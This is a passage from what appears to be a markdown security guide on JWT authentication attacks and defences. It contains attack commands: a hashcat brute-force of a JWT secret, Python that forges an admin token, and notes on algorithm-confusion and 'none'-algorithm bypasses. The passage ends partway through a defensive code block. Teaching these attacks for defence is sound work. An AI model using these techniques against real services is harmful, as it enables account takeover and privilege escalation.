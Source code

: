 ```bash
docker run -d --name secure-app \
  --read-only \
  --tmpfs /tmp \
  myapp:latest
```

## 🔐 Authentication & Authorization Attacks

### **1. JWT Token Attacks**

#### **Attack Vector: Weak JWT Implementation**
```bash
# Vulnerable JWT implementation
docker run -d --name vulnerable-app \
  -e JWT_SECRET=weak_secret \
  myapp:latest

# Attacker decodes JWT
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." | base64 -d

# Brute force JWT secret
hashcat -m 16500 -a 0 jwt.txt wordlist.txt

# Create forged token
python3 -c "
import jwt
payload = {'user_id': 1, 'role': 'admin'}
token = jwt.encode(payload, 'weak_secret', algorithm='HS256')
print(token)
"
```

#### **Exploitation Techniques**
```bash
# 1. JWT token analysis
echo "token" | base64 -d | jq .

# 2. Algorithm confusion
# Change alg from RS256 to HS256
# Use public key as secret

# 3. None algorithm
# Set alg to 'none' and remove signature

# 4. Weak secret brute force
hashcat -m 16500 -a 0 jwt.txt wordlist.txt
```

#### **Defense & Patching**
```bash
# Strong JWT implementation
import jwt
import secrets

# Generate strong secret
secret = secrets.token_urlsafe(32)

# Verify algorithm
def verify_token(token):
    try:
        payload = jwt.decode(token, secret, algorithms=['HS256'])
        return payload
    except jwt.InvalidTokenError:
```